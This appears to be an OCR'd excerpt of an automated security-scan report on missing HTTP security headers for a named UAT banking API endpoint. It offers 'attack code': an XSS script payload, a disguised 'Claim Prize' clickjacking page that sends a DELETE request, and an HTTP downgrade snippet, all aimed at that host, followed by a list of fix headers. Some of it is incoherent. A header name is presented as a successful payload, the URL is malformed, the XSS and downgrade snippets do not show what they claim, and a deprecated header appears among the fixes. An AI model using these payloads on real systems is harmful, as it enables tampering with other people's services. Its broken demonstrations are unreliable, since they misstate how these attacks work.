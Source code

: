 **🔴 Priority:** Medium - Within 1 month

**🎯 Successful Payloads:**
1. `Referrer-Policy`

**⚔️ Attack Code (How to Simulate):**
```javascript
// Security Headers Attack Code
// 1. XSS Attack (if CSP missing)
const xssPayload = "<script>alert('XSS')</script>";
fetch("https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false?q=" + encodeURIComponent(xssPayload));

// 2. Clickjacking Attack (if X-Frame-Options missing)
const clickjackingPage = `
<!DOCTYPE html>
<html>
<head><title>Free Prize!</title></head>
<body>
    <h1>🎁 Click for free prize!</h1>
    <iframe src="https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false" style="opacity:0.1; position:absolute; top:50px; left:50px;"></iframe>
    <button onclick="triggerDelete()" style="position:absolute; top:50px; left:50px; z-index:1000;">
        🎁 CLAIM PRIZE
    </button>
    <script>
        function triggerDelete() {
            fetch("https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false", {method: "DELETE"});
        }
    </script>
</body>
</html>`;

// 3. Protocol Downgrade (if HSTS missing)
// Attacker intercepts HTTPS and forces HTTP
fetch("https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false".replace('https://', 'http://'));
```

**🛡️ Fix Code (How to Resolve):**
```javascript
// Security Headers Fix Code
// Add these headers to all API responses
response.headers['Content-Security-Policy'] = "default-src 'self'; script-src 'self'; object-src 'none'";
response.headers['X-Frame-Options'] = 'DENY';
response.headers['Strict-Transport-Security'] = 'max-age=31536000; includeSubDomains; preload';
response.headers['X-Content-Type-Options'] = 'nosniff';
response.headers['Referrer-Policy'] = 'strict-origin-when-cross-origin';
response.headers['Permissions-Policy'] = 'geolocation=(), microphone=(), camera=(), payment=()';
response.headers['X-XSS-Protection'] = '1; mode=block';
response.headers['Access-Control-Allow-Origin'] = 'https://yourdomain.com';
response.headers['Access-Control-Allow-Methods'] = 'GET, POST, DELETE';
response.headers['Access-Control-Allow-Headers'] = 'Content-Type, Authorization';
response.headers['X-Permitted-Cross-Domain-Policies'] = 'none';
response.headers['Cache-Control'] = 'no-store, no-cache, must-revalidate, proxy-revalidate';
response.headers['Pragma'] = 'no-cache';
response.headers['Expires'] = '0';
```
